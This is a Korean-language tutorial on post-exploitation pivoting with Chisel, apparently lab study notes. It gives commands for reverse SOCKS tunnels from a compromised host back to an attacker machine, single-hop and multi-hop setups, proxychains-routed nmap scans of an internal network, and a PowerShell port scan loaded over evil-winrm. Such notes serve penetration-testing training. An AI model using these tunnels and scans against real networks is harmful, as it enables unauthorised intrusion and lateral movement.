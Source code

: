 
# 피버팅 및 터널링 가이드 (Chisel 활용)

피버팅(Pivoting)은 공격자가 이미 장악한 시스템(Pivot)을 발판 삼아, 직접 접근할 수 없는 다른 네트워크 대역(내부망)으로 공격 범위를 확장하는 핵심적인 측면 이동(Lateral Movement) 기술입니다. 이 가이드는 강력한 터널링 도구인 `Chisel`을 중심으로 피버팅의 개념과 실제 적용 방법을 설명합니다.

- **[Chisel GitHub 링크](https://github.com/jpillora/chisel)**

---

### **1. 핵심 개념: 리버스 터널링 (Reverse Tunnelling)**

`Chisel`의 가장 강력한 기능은 **리버스(Reverse)** 방식입니다. 방화벽은 보통 외부에서 내부로 들어오는 인바운드(Inbound) 연결은 차단하지만, 내부에서 외부로 나가는 아웃바운드(Outbound) 연결은 허용하는 경우가 많습니다. 리버스 터널링은 이 점을 이용하여, 공격 대상 네트워크의 Pivot 장비가 **클라이언트(Client)**가 되어 공격자의 서버에 접속을 요청하고, 공격자는 **서버(Server)** 역할을 하여 연결을 수락함으로써 터널을 생성합니다. 이를 통해 방화벽을 쉽게 우회하고 안정적인 연결을 확보할 수 있습니다.

---

### **2. 단일 피벗 (Single Pivot)**

- **시나리오:** 공격자(Kali)가 인터넷에 노출된 웹 서버(Pivot)를 장악했고, 이 웹 서버를 통해 내부망(10.200.180.0/24)에 접근하고자 합니다.

#### **1단계: 공격자 머신 - Chisel 서버 실행**
```bash(title="공격자 Kali")
# --reverse: 클라이언트로부터의 리버스 연결을 허용
./chisel server -p 9001 --reverse
```

#### **2단계: Pivot 장비 - Chisel 클라이언트 실행**
- 먼저 `chisel` 바이너리를 Pivot 장비에 업로드해야 합니다.
```bash(title="Pivot 장비")
# <attacker_ip>:9001: 공격자 Chisel 서버에 접속
# R:socks: 원격(공격자) 측에 SOCKS 프록시를 생성하라는 의미. 
#         (R은 Remote의 약자로, 클라이언트 입장에서의 Remote는 서버를 의미)
./chisel client <attacker_ip>:9001 R:socks
```
- 이 명령이 실행되면, 공격자 머신의 `127.0.0.1:1080`에 SOCKS5 프록시가 생성됩니다. (기본 포트 1080)

#### **3단계: 공격자 머신 - Proxychains 설정**
- `/etc/proxychains4.conf` 파일의 맨 아래에 Chisel이 생성한 SOCKS 프록시를 추가합니다.
```ini(title="/etc/proxychains4.conf")
[ProxyList]
socks5 127.0.0.1 1080
```

#### **4단계: 내부망 정찰**
- 이제 `proxychains`를 명령어 앞에 붙이면, 모든 트래픽이 터널을 통해 Pivot 장비를 거쳐 내부망으로 전달됩니다.
```bash(title="공격자 Kali")
# Proxychains를 통해 내부망의 다른 호스트(10.200.180.150)를 스캔
proxychains nmap -sT -Pn -p 22,80,445 10.200.180.150

# 내부 웹 서버에 접근
proxychains curl http://10.200.180.150
```

---

### **3. 다중 피벗 (Multi-hop Pivot)**

- **시나리오:** 공격자 -> Pivot 1 -> Pivot 2 -> 내부망 타겟
- **원리:** 각 Pivot 장비는 이전 장비를 향한 `chisel client`인 동시에, 다음 장비를 위한 `chisel server` 역할을 수행합니다.
- **참고 다이어그램:** [[Multi-hope pivoting diagram]]

#### **단계별 Chisel 명령어**

1.  **공격자 Kali:**
    ```bash
    # 최종 목적지로부터의 연결을 받을 서버 (포트 9001)
    ./chisel server -p 9001 --reverse
    ```

2.  **Pivot 1:**
    ```bash
    # 1. Kali의 서버(9001)에 접속하여 첫 번째 터널 생성 (공격자 쪽에 9999 포트로 프록시 생성)
    ./chisel client <Kali_IP>:9001 R:9999:socks

    # 2. Pivot 2의 접속을 받을 새로운 서버 실행 (포트 9002)
    ./chisel server -p 9002 --reverse
    ```

3.  **Pivot 2:**
    ```bash
    # Pivot 1의 서버(9002)에 접속하여 두 번째 터널 생성 (공격자 쪽에 8888 포트로 프록시 생성)
    ./chisel client <Pivot1_IP>:9002 R:8888:socks
    ```

4.  **공격자 Proxychains 설정:**
    - `/etc/proxychains4.conf`에 모든 프록시를 순서대로 추가합니다.
    ```ini
#[ProxyList]
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
```

---

### **4. PowerShell을 이용한 내부망 포트 스캔**

- **상황:** `evil-winrm` 등으로 Windows Pivot 장비에 접속했으며, `proxychains`를 사용하기 어려운 경우.
- **전략:** Pivot 장비 자체에서 PowerShell 스크립트를 이용해 내부망을 스캔합니다.
- **[스크립트 링크](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1)**

```powershell(title="PowerShell 포트 스캔")
# 1. evil-winrm의 upload 기능을 이용해 Invoke-Portscan.ps1 스크립트 업로드

# 2. 스크립트를 현재 세션으로 로드
Import-Module .\Invoke-Portscan.ps1

# 3. 내부망의 다른 호스트를 대상으로 상위 50개 포트 스캔
Invoke-Portscan -Hosts 10.200.180.100 -TopPorts 50
```